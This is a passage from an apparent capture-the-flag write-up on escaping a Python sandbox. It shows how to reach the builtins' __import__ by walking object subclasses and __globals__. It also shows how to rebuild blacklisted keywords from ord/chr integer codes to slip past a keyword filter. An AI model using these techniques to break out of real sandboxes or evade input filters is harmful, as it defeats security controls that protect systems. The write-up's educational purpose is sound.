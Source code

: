 ![python-object-subclasses](images/code-python-object-subclasses.png) 

This is important because it allows us to potentially access built-in functions and modules that might be restricted in the sandbox environment. Specifically, we can look for the `__import__` function, which is a built-in function used to import modules dynamically : 

```python
print([ x.__init__.__globals__ for x in ''.__class__.__bases__[0].__subclasses__() if "wrapper" not in str(x.__init__)][0].keys()
)
```

![builtins-from-object-class](images/code-builtins-from-object-class.png) 

By accessing the `__import__` function, we can bypass the restrictions on using keywords like `import` directly. Now the idea would be to access it but since any keywords such as `import` or `os` are blacklisted from the sandbox, we can convert each Unicode character to its integer representation and recreate the string using both the `ord(<str>)` and `chr(<int>)` methods :

```python
>>> [ord(c) for c in list("__import__")]
[95, 95, 105, 109, 112, 111, 114, 116, 95, 95]

"".join([chr(i) for i in [95, 95, 105, 109, 112, 111, 114, 116, 95, 95]])
'__import__'
```
